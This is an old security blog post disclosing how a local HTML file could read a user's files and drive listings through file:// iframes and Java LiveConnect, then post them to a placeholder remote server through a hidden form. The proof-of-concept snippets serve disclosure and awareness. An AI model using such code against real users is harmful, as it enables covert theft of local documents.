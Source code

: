 ```yaml
---
title: Web Pages from Hell
author: pdp
date: Mon, 11 Sep 2006 21:23:31 GMT
template: post.jade
---
```


You open a html file but you are not aware. You check the content but you don't know.

> I have just received the report for the third quoter of 2006 by email. My boss says that from now on we will use simple html pages because it is more accessible. Well, I don't know much about accessibility and I don't really care. I click on the attachment. The html document stores itself no the desktop. Double click and I have it open in Firefox.

What happens next is without any doubt a security breach. Anonymous attacker has just compromised and stole important corporate documents.

Unfortunately, this story is far from being far-fetched. This is something that can happen to your organization and the technology required is here today and ready for use. Concerning, isn't it? That's the reason why I went a bit deeper into this topic, figuring out various attack vectors and composing a simple toolkit to mitigate the risk. The following post reveals some of my findings and provides disjointed source code as a proof of concept.

In this example we need Java, a single iframe, a form and a remote storage point. The iframe is used as data retrieval mechanism for html, xml and text files. Java is used as data retrieval mechanism for binary files. The form is used to send the data back to a remote storage point in a form of multiple POST request.

The first stage is to compose an iframe. You must be aware that iframes are areas where content can be rendered. This content is retrieved by a URL. The URL describes the location and also the protocol in use, which can be `HTTP, HTTPS, FTP, FILE` and maybe something else depending of your browser. Obviously `FILE` sounds quite interesting. This protocol allows us to look and browse through our system or open local files inside our browsers. Just entering `file:///C:/` in your browser window should open `C:\` drive.

It is said that iframes are secured in a way that different domains cannot access each other content. This restriction is applied with the same origin model. In simple terms, if a page from `a.com` creates hidden iframe of `b.com`, no communication is allowed between them. This means that` a.com` cannot read what is inside `b.com` iframe.

In a way this is secure, however the `FILE` protocol is excluded from this rule simply because file paths don't have domains. So, an html file loaded from `file:///C:/file.html` can open an iframe of `file:///D:/file.html` and read its content. Of course, it must be noted that no external resource can read files from the local system because the same origin model imply that the protocol must be the same in order to allow communication. This means that HTTP cannot communicate with FILE or FTP.

To cut the story short I will go into an example how all this theory can be used in practice.

A file on the file system can open any other file inside an iframe.

```html
<iframe src="file:///C:/test.txt"></iframe>
```

In order to retrieve the content of this file we have to wait for the iframe to load and then just grab its document body.

```html
<iframe src="file:///C:/test.txt" onload="getContent(this)"></iframe>
<script>
  function getContent(iframe) {
    var content = '';
    if (iframe.contentDocument) {
      content = iframe.contentDocument.body.innerHTML; 
    } else if (iframe.contentWindow) {
      content = iframe.contentWindow.document.body.innerHTML;
    } else if (iframe.document) {
      content = iframe.document.body.innerHTML;
    }
    alert(content);
  }
</script>
```

The snippet above will display the content of an iframe which currently holds `file:///C:/test.txt`.

Opening files is not fun although probably you already can see some of the potentials. Let's try something more funky by replacing `file:///C:/test.txt` with `file:///C:/.` This should open `C:\` drive.

```html
<iframe src="file:///C:/" onload="getContent(this)"></iframe>
<script>
  function getContent(iframe) {
    var content = '';
    if (iframe.contentDocument) {
      content = iframe.contentDocument.body.innerHTML; 
    } else if (iframe.contentWindow) {
      content = iframe.contentWindow.document.body.innerHTML;
    } else if (iframe.document) {
      content = iframe.document.body.innerHTML;
    }
    alert(content);
  }
</script>
```

Potentially, the snippet above has just listed your `C:\` drive into an alert box. Of course this will work on most browsers but not in IE. IE is secure in this respect, however just keep in mind that IE supports ActiveX which makes the entire process a lot more simpler in some situations.

The next step every attacker probably will do is to create a recursive function which lists directories and upload interesting content on a remote server. If you try to do this you will see that the process is not as trivial as it seams because as soon as your iframe tries to open a binary file, your browser will prompt you with a download box. Of course, the attacker can try to avoid doc, xls and other types of binary files but today this is where all interesting corporate information is stored into.

So, in order to retrieve a binary file another technology needs to be used: Java and more precisely LiveConnect which is supported by Firefox and Opera. Let's see how our binary retrieving code looks like:

```html
<script>
  function liveJaveGetContent(URL) {
    var result = '';
    var destination = new java.net.URL(URL);
    var input = java.io.DataInputStream(destination.openStream());

    while ((line = input.readLine()) != null) {
      result += line;
      result += java.lang.System.getProperty('line.separator');
    }

    input.close();
    return result;
  }
</script>
```

I must admit that the code above is not as generic as it can be but... well, no time.

So, the function above can read binary files and return them in form of a string. This string is quite valuable for the attackers but first it has to be send to a remote location. This can be achieved in many ways, however my favorite one requires something as simple as a html form.

```html
<form name="sendContentForm" method="post" action="http://path/to/remote/location">
  <textarea name="content"></textarea>
  <input type="submit"/>
</form>
```

This is it. When we call `sendContentFrom.submit()` the data will be transfered from locahost to the remote location. Of course this form wont be able to transport too much content. For that reason we have to do some partitioning and send the data in blocks.I will let this to you to play around.

The conclusion is that you should not trust anything that you open in your browser, unless you completely disable JavaScrpt, Java and Flash. The next time you open a simple html page from your desktop, keep in mind that you may have opened a security hole in your network too. While previewing the document the attacker is able to enumerate the internal infrastructure of your organization by listing mounted shares. These share may contain documents, tables and databases that might be valuable to some individuals and organizations.

_BTW, just closing the browser window wont stop this attack continuing in the background. Many browsers can be made to stay alive even after you click on the X button. Maybe I will cover this some other time._
